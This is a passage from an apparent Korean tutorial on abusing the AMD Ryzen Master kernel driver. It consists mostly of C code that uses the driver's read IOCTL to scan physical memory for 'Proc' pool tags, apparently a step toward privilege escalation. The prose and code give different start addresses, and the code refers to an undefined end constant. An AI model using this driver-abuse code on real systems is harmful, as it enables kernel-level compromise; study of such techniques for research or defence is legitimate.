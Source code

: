 <br>

이제 서칭할 물리 메모리 범위를 지정해야 하는데, 이 범위는 호스트의 전체 메모리나 (가상머신에서 테스트하는 경우) 가상머신에 할당된 메모리크기 등에 따라 영향을 받아 서칭할 메모리 범위가 크게 차이가 나기 때문에 테스트하는 환경에 맞게 설정해주어야 합니다. 제 경우는 호스트 PC 16GB, VM에 4GB를 할당했으며 `0x120000000` ~ `0x240000000` 범위로 지정을 했습니다.

```c
#define DEVICE_NAME         "\\\\\\\\.\\\\AMDRyzenMasterDriverV15"
#define WRITE_IOCTL         (DWORD)0x81112F0C
#define READ_IOCTL          (DWORD)0x81112F08
#define START_ADDRESS       (INT64)0x100000000
#define STOP_ADDRESS        (INT64)0x240000000

...

PROC_DATA read_memory(HANDLE dHandle)
{

    DWORD dwRet;
    PROC_DATA proc_data = { 0, };
    
    DWORD len = 0x1000;
    INT64 i = 0;

    while (1) {
        INT64 read_address = START_ADDRESS + (i * 0x1000);
        if (read_address >= END_OF_ADDRESS) {
            printf("END of Address\\n");
            return proc_data;
        }
        READ_INPUT_BUFFER input_buff = { read_address, len };
        LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
       
        DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &dwRet, 0);
        
        INT64 result = (INT64)output_buff + 0xc;
        for (INT64 j = 0; j < 0xF60; j += 0x10) {
            PINT64 proc_ptr = (PINT64)(result + 0x4 + j);
            INT32 proc_val = *(PINT32)proc_ptr;
            if (proc_val == 0x636f7250) {
                for (INT64 k = 0; k < 0xA0; k += 0x10) {
                    PINT64 header_ptr = (PINT64)(result + j + k);
                    INT32 header_val = *(PINT32)header_ptr;
                    if (header_val == 0x00000003) {
                        INT64 tmp = read_address + j;
                        INT64 modulus = tmp % 0x1000;
                        proc_data.page_entry_offset[proc_data.proc_count] = modulus;
                        proc_data.proc_address[proc_data.proc_count] = tmp - modulus;
                        proc_data.header_size[proc_data.proc_count] = k;
                        proc_data.proc_count++;
                        printf("[%d] Proc chunks found\\n", proc_data.proc_count);
                       
                    }
                }
                
            }
        }
        i++;
    }
}

...
```
